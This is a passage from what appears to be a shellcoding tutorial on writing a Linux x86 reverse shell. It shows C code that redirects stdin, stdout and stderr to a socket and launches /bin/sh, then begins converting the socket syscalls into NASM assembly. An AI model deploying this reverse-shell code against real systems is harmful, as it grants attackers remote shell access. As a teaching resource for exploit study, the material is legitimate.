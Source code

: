 ```cpp
  for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

### assembly preparation

As shown in the C source code, you need to translate the following calls into Assembly language:           
 - create a socket.             
 - connect to a specified IP and port.          
 - then redirect stdin, stdout, stderr via `dup2`.      
 - launch the shell with `execve`.           

### create socket        

You need syscall `0x66` (SYS_SOCKETCALL) to basically work with sockets:

![sys_socketcall](./images/14/2021-10-16_12-29.png){width="80%"}       

Then cleanup `eax` register:        
```nasm
; int socketcall(int call, unsigned long *args);
push 0x66        ; sys_socketcall 102
pop  eax         ; zero out eax
```

The next important part - the different functions calls of the socketcall syscall can be found in `/usr/include/linux/net.h`:           

![socketcall syscall](./images/14/2021-10-16_12-34.png){width="80%"}       

So you need to start with `SYS_SOCKET (0x1)` then cleanup `ebx`:
```nasm
push 0x1         ; sys_socket 0x1
pop  ebx         ; zero out ebx
```

The `socket()` call basically takes 3 arguments and returns a socket file descriptor:   
```cpp
sockfd = socket(int socket_family, int socket_type, int protocol);
```

So you need to check different header files to find the definitions for the arguments.          
For `protocol`:             
```bash
nvim /usr/include/linux/in.h
```
